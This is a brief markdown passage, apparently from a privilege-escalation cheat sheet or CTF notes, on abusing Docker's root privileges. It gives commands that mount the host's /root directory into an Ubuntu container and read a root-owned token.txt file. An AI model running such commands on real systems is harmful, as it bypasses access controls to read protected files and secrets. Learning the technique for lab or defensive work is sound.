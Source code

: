 #Docker
***
Most of the time the docker process runs with escalated privileges. We can use this, for example to read the `token.txt` file owned by the `root` user in the root folder as follows:
```
docker run -it -v /root:/test ubuntu:18.04 /bin/bash
cat /test/token.txt
```